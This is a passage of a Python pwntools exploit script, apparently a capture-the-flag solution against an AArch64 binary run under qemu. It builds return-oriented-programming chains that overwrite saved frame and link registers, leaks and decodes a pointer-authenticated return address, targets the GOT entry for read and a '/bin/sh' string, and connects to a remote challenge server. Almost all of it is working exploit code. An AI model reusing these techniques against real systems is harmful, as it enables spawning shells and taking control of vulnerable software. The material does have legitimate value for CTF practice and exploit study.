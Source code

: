 ```python
x22 = binsh_addr
x23 = 0
x24 = 0

x29 = stack_frame

"""

auth_ret = 0x3b
tmp = (auth_ret << 48) | 0x400FF8
print(f"[+] ret addr : {tmp:#x}")

rop_chain = b'a'*0x20 + flat(
    fake_stack, tmp, # fp, lr
    fake_stack, 0x0400FD8, # fp2, lr2
    0, 0, # x19, x20
    binsh_addr+8, binsh_addr, # x21, x22
    0, 0, # x23, x24
)

def debug():
    leak = False
    local = False
    if local:
        io = process(["qemu-aarch64", "-cpu", "max", "-L", ".", "./chall.bak"], aslr=False)
        # io = process(["qemu-aarch64", "-cpu", "max", "-g", "2234", "-L", ".", ".chall.bak"], aslr=False)
    else:
        io=remote("52.255.184.147", 8080)
        ru(io, '+')
        tail = rv(io, 16)
        ru(io, ' == ')
        sha = io.recvline(keepends=False)
        bp(tail, sha, io)

    sla(io, "name", flat(0x400FF8, 0, 0x10A9FC70042, 0)) # patched
    add(io, u32("%p\0\0"))
    lock(io, -2)
    lock(io, -1)
    show(io, 0)
    ru(io, "ame: ")
    enc_addr = u64(rv(io, 8))
    dec_addr = mapping[enc_addr]
    print(f"dec_addr : {dec_addr:#x}")
    auth(io, -1)

    # auth_ret = int(input("input auth_code : "), 16)
    tmp = dec_addr
    print(f"[+] ret addr : {tmp:#x}")
    if not leak:
        # write name
        rop_chain = b'a'*0x20 + flat(
            fake_stack, tmp, # fp, lr
            fake_stack, 0x0400FD8, # fp2, lr2
            0, 1, # x19, x20
            got_read, 0, # x21, x22
            name_addr, 0x100, # x23, x24
            
            fake_stack, 0x0400FD8, # fp2, lr2
            0, 1, # x19, x20
            name_addr+8, name_addr, # x21, x22
            name_addr, 0x100, # x23, x24
        )
```